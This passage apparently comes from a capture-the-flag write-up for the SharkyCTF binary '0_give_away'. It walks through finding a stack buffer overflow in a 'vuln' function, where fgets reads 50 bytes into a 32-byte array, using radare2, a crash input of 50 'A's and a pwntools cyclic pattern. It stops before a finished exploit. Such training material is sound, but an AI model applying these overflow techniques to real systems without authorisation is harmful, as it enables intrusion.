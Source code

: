 ```shell
|           0x004006dc      4889c7         mov rdi, rax                ; char *s
|           0x004006df      e83cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x004006e4      90             nop
|           0x004006e5      c9             leave
\           0x004006e6      c3             ret
[0x004006e7]>

```

We can spot a function named vuln that attracts our attention.
And what that function does is to get the user's input, copy it into an array and returns to where it was called.
So our first assumption with ***strace*** was right.

However, ***fgets*** allows the user's input to have a max size of 50 bytes even if the array, where that input is copied, just allocates a size of 32 bytes into the memory :worried:.

### The Buffer overflow

We have just found the vulnerable function that will help us to cause a buffer overflow. Well, let's play with it.

```shell
[ndako] (~/SharkyCTF/PWN) >>> python3 -c 'print("A"*50)' | ./0_give_away
Segmentation fault
```

Boom! :boom: Here is a SEGFAULT, which just means that the program has attempted to access a restricted area of memory.

Let's confirm that we are the one who just have triggered this crash.

```shell
[ndako] (~/SharkyCTF/PWN) >>> python3
Python 3.7.5 (default, Oct 27 2019, 15:43:29)
[GCC 9.2.1 20191022] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(49)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam' # + '\n' by the keyboard
>>>
```

Here is our test payload that will help us to find out at which size ***rip*** is overflowed.

Let's run rarade2 in the debugger mode :

```shell
[ndako] (~/SharkyCTF/PWN) >>> r2 -d 0_give_away
Process with PID 4222 started...
= attach 4222 4222
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
[0x7f608216b090]> dcu sym.vuln
Continue until 0x004006c4 using 1 bpsize
hit breakpoint at: 4006c4
[0x004006c4]> aa
[Cannot analyze at 0x00600ff0g with sym. and entry0 (aa)
Invalid address from 0x00400759
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x004006c4]> pdf
            ;-- rip:
/ (fcn) sym.vuln 35
|   sym.vuln ();
|           ; var int32_t var_20h @ rbp-0x20
|           ; CALL XREF from main @ 0x4006fa
```